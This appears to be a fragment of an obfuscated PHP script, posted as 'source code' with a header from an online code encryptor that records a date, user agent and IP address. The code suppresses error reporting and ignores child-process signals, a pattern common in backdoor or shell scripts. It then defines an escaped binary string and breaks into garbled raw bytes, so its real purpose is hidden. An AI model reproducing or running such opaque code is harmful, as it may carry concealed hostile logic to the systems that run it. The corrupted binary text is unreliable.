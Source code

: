 

/***
Encryptor by      :https://en.yenpro.net
Obfuscated Version: 1.0
Description       : fff
Obfuscated Day    : 2023-03-11 16:59:56
UserAgent         : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Ip                : 162.158.178.251
Encryptor by      :https://en.yenpro.net
***/


error_reporting(0);

if (function_exists("pcntl_signal") && is_callable("signal")) {
	pcntl_signal(SIGCHLD, SIG_IGN);
}

// * std::HashMd5 1

$HashMd5 = "\300\344\127\60\243\xaf\x71\365\xa2\116\x93\313\xf4\332\xd6\273\235\x35\xac\147\x90\247\152\364\111\170\xdf\x5a\335\361\212\350";

${"kPr9µCÂ­K¼
•B(Á½<¡Â¸HQï3eÎˆ.t
